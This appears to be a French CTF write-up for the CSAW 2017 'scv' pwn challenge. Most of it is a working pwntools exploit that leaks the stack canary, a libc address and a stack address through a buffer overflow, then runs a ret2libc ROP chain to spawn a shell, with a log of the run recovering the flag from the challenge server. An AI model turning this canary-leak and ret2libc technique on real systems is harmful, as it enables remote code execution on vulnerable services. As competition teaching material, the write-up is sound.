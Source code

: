 ```yaml
---
layout: post
title: "CSAW CTF"
date: 18 Septembre 2017
comments: true
categories: wu
---
```

 ===== INFOS ===== 
Filename                 scv
File format              ELF64
Architecture             x86-64
Endianess                little endian
Entry point              0x4009a0
Loadables segments       2
Sections                 29

NX bit                   enabled
SSP                      enabled
Relro                    partial
RPATH                    no rpath
RUNPATH                  no runpath
PIE                      disabled


Le binaire présente un buffer overflow assez simple. On commence par récupérer le canari
puis l'adresse de la libc via l'adresse de __libc_start_main+288 sur la pile et
enfin l'adresse de la pile.

Canari:
waitmenu()
p.sendline("1")
waitmenu()
entete='A'*168
p.sendline(entete)
print waitmenu()
p.sendline("2")
b=waitmenu()
index=b.index(entete)+len(entete)+1
canari=bword("\x00"+b[index:index+7])
print "[+] canari=",hex(canari)

libc:
entete2="A"*(168+8+8)
p.sendline("1")
waitmenu()
p.send(entete2+chr(4))
print waitmenu()
p.sendline("2")
b=waitmenu()
index=b.index(entete2)+len(entete2)
leak=bword(complete(b[index:index+6],8))
print "[+] leak libc=",hex(leak)
reference_libc='__libc_start_main'
adr_reference_libc=(leak & 0xfffffffffffff000) + (libc.sym[reference_libc] & 0xfff)
whatis('system')
system=tolibc('system')
binsh=adlibc(libc.data.index("/bin/sh\x00"))
print '[+] binsh=',hex(binsh)

pile:
entete3="A"*(168+8+8+8+8)
p.sendline("1")
waitmenu()
p.send(entete3+chr(4))
print waitmenu()
p.sendline("2")
b=waitmenu()
index=b.index(entete3)+len(entete3)
pile=bword(complete(b[index:index+6],8))
print "[+] pile=",hex(pile)

ret2libc:
poprdi=0x0000000000400ea3 # : pop rdi ; ret
pile='A'*168+p64(canari)+p64(pile)+p64(poprdi)+p64(binsh)+p64(system)+chr(4)
p.sendline("1")
waitmenu()
p.send(pile)
waitmenu()
p.sendline("3")
p.interactive()

francois@aramis:~/BFF/CSAW2017/scv$ python payload.py 
[*] '/home/francois/BFF/CSAW2017/scv/scv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/francois/BFF/CSAW2017/scv/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.chal.csaw.io on port 3764: Done
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>
[+] canari= 0xdfb52cad20e5a500
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>
[+] leak libc= 0x7fe354b06804
system  =  0x7fe354b2b390
[+] binsh= 0x7fe354c72d17
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>
[+] pile= 0x7fffdf4abc04
[*] Switching to interactive mode
[*]BYE ~ TIME TO MINE MIENRALS...
$ cat flag
flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}
$ 
[*] Closed connection to pwn.chal.csaw.io port 3764
francois@aramis:~/BFF/CSAW2017/scv$ 
